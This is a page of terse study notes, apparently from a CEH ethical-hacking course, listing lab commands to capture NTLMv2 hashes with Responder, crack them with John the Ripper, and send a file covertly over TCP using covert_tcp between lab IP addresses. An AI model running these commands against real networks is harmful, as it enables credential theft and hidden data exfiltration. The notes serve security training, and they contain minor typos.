 **Module 06: System Hacking**

**Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder**

-   **Linux:**
    -   cd
    -   cd Responder
    -   chmox +x ./Responder.py
    -   **sudo ./Responder.py -I eth0**
    -   passwd: ****
-   **Windows**
    -   run
    -   \CEH-Tools
-   **Linux:**
    -   Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
    -   sudo snap install john-the-ripper
    -   passwd: ****
    -   **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

**Lab3-Task6: Covert Channels using Covert_TCP**

-   **Attacker:**
    -   cd Desktop
    -   mkdir Send
    -   cd Send
    -   echo "Secret"->message.txt
    -   Place->Network
    -   Ctrl+L
    -   **smb://[IP]**
    -   Account & Password
    -   copy and paste covert_tcp.c
    -   **cc -o covert_tcp covert_tcp.c**
-   **Target:**
    -   **tcpdump -nvvx port 8888 -I lo**
    -   cd Desktop
    -   mkdir Receive
    -   cd Receive
    -   File->Ctrl+L
    -   smb://[IP]
    -   copy and paste covert_tcp.c
    -   cc -o covert_tcp covert_tcp.c
    -   **./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
    -   **Tcpdump captures no packets**
-   **Attacker**
    -   **./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt**
    -   Wireshark (message string being send in individual packet)
